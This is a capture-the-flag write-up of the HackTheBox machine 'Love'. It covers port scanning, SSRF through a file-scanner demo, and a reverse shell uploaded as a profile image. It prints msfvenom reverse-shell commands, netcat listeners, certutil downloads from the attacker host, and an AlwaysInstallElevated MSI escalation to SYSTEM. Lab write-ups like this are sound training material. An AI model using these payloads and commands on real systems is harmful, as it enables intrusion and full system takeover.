

+++
authors = ["Matt Johnson"]
title = 'HTB: Love Writeup'
date = '2020-08-07'
description = "Here's how to solve HackTheBox's Love."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Love."
+++



# High-Level Information

Machine Name: Love

IP Address: 10.10.10.239

Difficulty: Easy

Summary: HackTheBox's Love was a straightforward box that required an understanding of how to perform validation against untrusted user input into web applications, perform server-side request forgery, and exploit a misconfiguration of user privileges in order to install software and run arbitrary commands as `NT AUTHORITY\SYSTEM`.

Tools Used: Nmap, Gobuster, msfvenom, certutil, winPEAS

# Initial Foothold

As always, I began with an Nmap scan:

```markdown
# Nmap 7.91 scan initiated Fri Jul  9 05:50:44 2021 as: nmap -sC -sV -p- -oA nmap 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.097s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, HTTPOptions, Help, JavaRMI, LDAPSearchReq, NCP, RTSPRequest, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, X11Probe, oracle-tns: 
|_    Host '10.10.14.4' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-07-09T06:36:10+00:00; +33m08s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=7/9%Time=60E7E5F1%P=x86_64-pc-linux-gnu%r(HTT
SF:POptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPReq
SF:uest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRe
SF:questTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCook
SF:ie,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionReq
SF:,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,49,"E\0\0\x
SF:01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20con
SF:nect\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,49,"E\0\0\x01
SF:\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20conne
SF:ct\x20to\x20this\x20MariaDB\x20server")%r(SIPOptions,49,"E\0\0\x01\xffj
SF:\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20connect\x2
SF:0to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xffj\x04Host\x20
SF:'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\
SF:x20MariaDB\x20server")%r(JavaRMI,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\
SF:.14\.4'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20Maria
SF:DB\x20server")%r(WMSRequest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.
SF:4'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x2
SF:0server")%r(oracle-tns,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x2
SF:0is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20serv
SF:er");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h18m09s, deviation: 3h30m02s, median: 33m08s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-08T23:35:57-07:00
| smb-security-mode: 
|   account_used: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-09T06:35:55
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  9 06:03:03 2021 -- 1 IP address (1 host up) scanned in 739.20 seconds
```

In addition to that, I ran a gobuster scan against the main web page at port 80:

```yaml
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/09 06:01:06 Starting gobuster in directory enumeration mode
===============================================================

/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]

/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]

/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/] 

/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]

/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]

/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]    

/licenses             (Status: 403) [Size: 421]                                    

/examples             (Status: 503) [Size: 402]                                    

/IMAGES               (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]  

/%20                  (Status: 403) [Size: 302]                                    

/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]   

/*checkout*           (Status: 403) [Size: 302]                                    

/Plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/Plugins/] 

/phpmyadmin           (Status: 403) [Size: 302]                                    

/webalizer            (Status: 403) [Size: 302]                                    

/*docroot*            (Status: 403) [Size: 302]                                    

/*                    (Status: 403) [Size: 302]                                    

/con                  (Status: 403) [Size: 302]                                    

/http%3A              (Status: 403) [Size: 302]                                    

/Includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/Includes/]

/**http%3a            (Status: 403) [Size: 302]                                    

/*http%3A             (Status: 403) [Size: 302]                                    

/aux                  (Status: 403) [Size: 302]                                    

/Dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/Dist/]    

/**http%3A            (Status: 403) [Size: 302]                                    

/%C0                  (Status: 403) [Size: 302]                                    

/server-status        (Status: 403) [Size: 421]                                    

/%3FRID%3D2671        (Status: 403) [Size: 302]                                    

/devinmoore*          (Status: 403) [Size: 302]                                    

/200109*              (Status: 403) [Size: 302]                                    

/*sa_                 (Status: 403) [Size: 302]                                    

/*dc_                 (Status: 403) [Size: 302]                                    

/%D8                  (Status: 403) [Size: 302]                                    

/%CE                  (Status: 403) [Size: 302]                                    

/%CF                  (Status: 403) [Size: 302]                                    

/%CD                  (Status: 403) [Size: 302]                                    

/%CC                  (Status: 403) [Size: 302]                                    

/%CA                  (Status: 403) [Size: 302]                                    

/%CB                  (Status: 403) [Size: 302]                                    

/%D6                  (Status: 403) [Size: 302]                                    

/%D0                  (Status: 403) [Size: 302]                                    

/%D1                  (Status: 403) [Size: 302]                                    

/%D4                  (Status: 403) [Size: 302]                                    

/%D3                  (Status: 403) [Size: 302]                                    

/%D7                  (Status: 403) [Size: 302]                                    

/%D5                  (Status: 403) [Size: 302]                                    

/%D2                  (Status: 403) [Size: 302]                                    

/%C9                  (Status: 403) [Size: 302]                                    

/%C1                  (Status: 403) [Size: 302]                                    

/%C8                  (Status: 403) [Size: 302]                                    

/%C6                  (Status: 403) [Size: 302]                                    

/%C3                  (Status: 403) [Size: 302]                                    

/%C5                  (Status: 403) [Size: 302]                                    

/%C7                  (Status: 403) [Size: 302]                                    

/%C2                  (Status: 403) [Size: 302]                                    

/%C4                  (Status: 403) [Size: 302]                                    

/%D9                  (Status: 403) [Size: 302]                                    

/%DD                  (Status: 403) [Size: 302]                                    

/%DF                  (Status: 403) [Size: 302]                                    

/%DE                  (Status: 403) [Size: 302]                                    

/%DB                  (Status: 403) [Size: 302]                                    

/login%3f             (Status: 403) [Size: 302]                                    

/%22julie%20roehm%22  (Status: 403) [Size: 302]                                    

/%22james%20kim%22    (Status: 403) [Size: 302]                                    

/%22britney%20spears%22 (Status: 403) [Size: 302]                                  
===============================================================
2021/07/09 06:05:24 Finished
===============================================================
```

Most of the open ports and services identified in the scan led to nothing useful, however one particular thing stood out. A subdomain, `staging.love.htb`, was specifically listed in the SSL certificate on port 443. Given that visiting the normal site generates a 403 error both when using `https://10.10.10.239` and `https://love.htb`, I decided to add `staging.love.htb` to the `/etc/hosts` file and enumerate that. Worth noting that you have to visit the website on port 80 via HTTP, not 443 via HTTPS.


On the website there is a demo for the file scanning tool:


The first thing to check for a service like this is what kind of validation is being performed. I tested that by trying to read the Windows host file on the remote machine:

 

Given that it works with local files and actually renders the file, I decided to try to use it as a proxy to bypass the 403 errors I got when trying to visit the sites on ports 443 and 5000:


While port 443 proved unfruitful, I was successfully able to perform an SSRF attack against port 5000:

 

Those credentials allowed me to gain administrative access to the voting system admin panel at `10.10.10.239/admin/`:

 

One thing that stood out on the admin panel is that it was possible to change the user's image. From the gobuster scan I knew there was an `/images/` folder. If inputs were not properly sanitized for the image upload I could potentially upload a reverse shell and execute it to get a shell. I uploaded a test file to see if that was the case:

 

Success! Now to test if it's publicly viewable:


With that knowledge, I felt pretty comfortable that I could get a reverse shell. I used msfvenom to generate the payload, uploaded it, set up a netcat listener, and got a shell:

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.6 LPORT=4444 -f raw > reverse.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3038 bytes
```



```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4444 
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50988
whoami
love\phoebe
```

# Privilege Escalation

Now, even though I had a shell at this point, the shell was absolutely awful. Worst of all was that it disconnected every couple of minutes, making proper enumeration a real pain. To solve that I generated an x64 msfvenom payload, downloaded it to the box using certutil, and executed it to get a more stable shell.

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4445 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4444                                                                      
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50989
certutil.exe -urlcache -f http://10.10.14.6/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
dir
Volume in drive C has no label.
Volume Serial Number is 56DE-BA30

Directory of C:\xampp\htdocs\omrs\images

08/07/2021  12:14 PM    <DIR>          .
08/07/2021  12:14 PM    <DIR>          ..
08/06/2021  07:48 PM           159,744 admin.msi
05/18/2018  08:10 AM             4,240 facebook-profile-image.jpeg
04/12/2021  03:53 PM                 0 index.html.txt
01/27/2021  12:08 AM               844 index.jpeg
08/06/2021  07:33 PM         1,919,488 privilege.exe
08/24/2017  04:00 AM            26,644 profile.jpg
08/07/2021  12:10 PM             3,038 reverse.php
08/06/2021  07:06 PM             7,168 reverse1.exe
08/07/2021  12:14 PM             7,168 shell.exe
08/07/2021  12:04 PM                32 test.php
             10 File(s)      2,128,366 bytes
              2 Dir(s)   3,880,849,408 bytes free
.\shell.exe
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [07/Aug/2021 14:48:07] "GET /shell.exe HTTP/1.1" 200 -
10.10.10.239 - - [07/Aug/2021 14:48:07] "GET /shell.exe HTTP/1.1" 200 -
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4445 
[sudo] password for kali: 
listening on [any] 4445 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50992
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.
 
C:\xampp\htdocs\omrs\images>whoami
whoami   
love\phoebe 

C:\xampp\htdocs\omrs\images>
```

From there, I was able to grab the user flag, download winPEAS from my machine, and run it. Within its output I found my path to root - the `AlwaysInstallElevated` privilege. This allows any user, regardless of what privileges they normally have, to install software as an administrator. This is a dangerous configuration, as the `.msi` files used to install programs can also provide commands to run during installation, which in this case would be run as a system-level user.


To generate the malicious payload I once again utilized msfvenom. Uploading it was, again, as simple as running certutil. I then proceeded to run the `.msi` and wait for my not-so-hard-earned shell:

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4446 --encoder x64/xor --iterations 9 --format msi --out system.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: system.msi
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4445 
[sudo] password for kali: 
listening on [any] 4445 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50992
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.


C:\xampp\htdocs\omrs\images>whoami
whoami   
love\phoebe    

C:\xampp\htdocs\omrs\images>certutil.exe -urlcache -f http://10.10.14.6/system.msi system.msi
certutil.exe -urlcache -f http://10.10.14.6/system.msi system.msi
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\xampp\htdocs\omrs\images>dir
dir
    Volume in drive C has no label.
    Volume Serial Number is 56DE-BA30

    Directory of C:\xampp\htdocs\omrs\images

08/07/2021  12:26 PM    <DIR>          .
08/07/2021  12:26 PM    <DIR>          ..
08/06/2021  07:48 PM           159,744 admin.msi
05/18/2018  08:10 AM             4,240 facebook-profile-image.jpeg
04/12/2021  03:53 PM                 0 index.html.txt
01/27/2021  12:08 AM               844 index.jpeg
08/06/2021  07:33 PM         1,919,488 privilege.exe
08/24/2017  04:00 AM            26,644 profile.jpg
08/06/2021  07:06 PM             7,168 reverse1.exe
08/07/2021  12:14 PM             7,168 shell.exe
08/07/2021  12:26 PM           159,744 system.msi
                9 File(s)      2,285,040 bytes
                2 Dir(s)   3,879,710,720 bytes free

C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i system.msi
msiexec /quiet /qn /i system.msi

C:\xampp\htdocs\omrs\images>
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4446 
[sudo] password for kali: 
listening on [any] 4446 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50995
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```